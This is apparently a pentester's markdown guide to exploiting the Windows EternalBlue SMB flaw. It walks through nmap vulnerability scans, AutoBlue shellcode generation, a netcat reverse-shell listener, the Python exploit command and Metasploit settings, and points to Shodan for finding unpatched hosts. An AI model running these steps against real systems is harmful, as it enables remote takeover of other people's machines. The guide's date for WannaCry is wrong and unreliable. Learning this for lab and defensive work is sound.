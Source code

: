 # Exploiting Eternal Blue
> EternalBlue (MS17-010 & CVE-2017-0144) is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently to the network the target sits on.

## Contents
- [Intro & Info](#intro--info)
  - [MS17-010 ExternalBlue Exploit](#ms17-010-externalblue-exploit)
  - [MS17-010 ExternalBlue Exploit... More Info](#ms17-010-externalblue-exploit-more-info)
  - [MS17-010 EternalBlue: Patches and Such](#ms17-010-eternalblue-patches-and-such)
  - [Shodan Search](#shodan-search)
  - [Exploit Tool: AutoBlue-MS17-010](#exploit-tool-autoblue-ms17-010)
- [Exploit Methods](#exploit-methods)
  - [Manual](#manual)
  - [MetaSploit](#metasploit)

## Intro & Info

### MS17-010 ExternalBlue Exploit
- EternalBlue was developed by the NSA to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called The Shadow Brokers in 2017.
- The EternalBlue exploit takes advantage of a vulnerability in the Windows SMBv1 protocol that allows attackers to send specifically crafted packets that consequently facilitate the execution of arbitrary commands.
  - This could also be a reverse shell or meterpreter session in msfconsole.
  - And you get admin. So there's no priv esc to be had. You're in and you're in.
- One of the biggest MS Fubars of the last 10 to 15 years.

### MS17-010 ExternalBlue Exploit... More Info
- The EternalBlue exploit was used in the WannaCry ransomware attack on June 27, 2017, to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.
- This vulnerability affects multiple version of Windows:
  -   Windows Vista, 7, 8.1, Windows 10
  -   Windows Server 2008, 2012, 2016
 
### MS17-010 EternalBlue: Patches and Such
- Microsoft released a patch for the vulnerability in March of 2017. However many users and companies have still not yet patched their systems.
- The EternalBlue exploit has an MSF auxiliary module that can be used to check if a target system is vulnerable to the exploit, and it also has an exploit module that can be used to exploit the vulnerability on unpatched system.
- The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a priviliged meterpreter session on the target system.
- In addition to MSF modules, we can also manually exploit the vulnerability by utilizing publicly available exploit code.

### [Shodan Search](https://www.shodan.io/)
- You can do a Shodan search and find thousands of machines still running versions of Windows that are vulnerable (unpatched).

## Exploit Tool: [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
- Manual Exploitation: Through the use of a tool called AutoBlue-MS17-010

## Exploit Methods
```
nmap -p 445 -sV -sC -O [target ip]
nmap -p 445 -sV --script smb-vuln-ms17-010 [target ip]
```
- First run a standard port scan with nmap (`-sV -sC -O`); should confirm smb and the o/s, etc. 
- Then run an nmap script (`smb-vuln-ms17-010`) to get info about the MS17-010 vulnerability on the target.
  - This will tell you if it is vulnerable or not.

### Manual

#### 1. [Clone the Repo](https://github.com/3ndG4me/AutoBlue-MS17-010)
- Clone the repo on your local machine
- Follow the instructions on Github (install dependencies, etc.)
- Remember: You'll have to give files executable permissions to run them.


#### 2. Generate Shell Code
- `cd` into the shell code directory of your repo clone.
- run the bash script `shell_prep.sh`
- Answer "yes" to the msvenom question. Then plug in the arguments when prompted.
- Regular shell, stageless
- That's it.  Pay attention to the .bin file name it spits out (`sc_x86.bin` or `sc_x64.bin`)

#### 3. Set up a Listener
```
nc -nvlp 1234
````
- On your local (attack) machine (obviously).
- `-n`  No DNS lookups
- `-v`  Verbose output
- `-l`  Listen for an incoming call
- `-p`  Port number

#### 4. Execute the Python Exploit Script
```
python eternalblue_exploit7.py [target ip] /path/to/shellcode/to/execute.bin
```
- Execute the appropriate Python script for your target system.
- When you hit enter you should get a reverse shell on your netcat listener. 

### MetaSploit

- Start msfconsole and search for eternalblue
  -  There are two types of modules you can use
  -  Auxiliary: scans, etc. Tells you whether the target is vulnerable or not
  -  Exploit: This one runs the exploit on a vulnerable system
-  `use exploit/windows/smb/ms17_010_eternalblue`
-  Note the default payload. If it's okay, no changes necessary. If not, change it.
-  Check and set options: LHOST, LPORT, RHOSTS
-  `run`
-  You should get a meterpreter session quickly
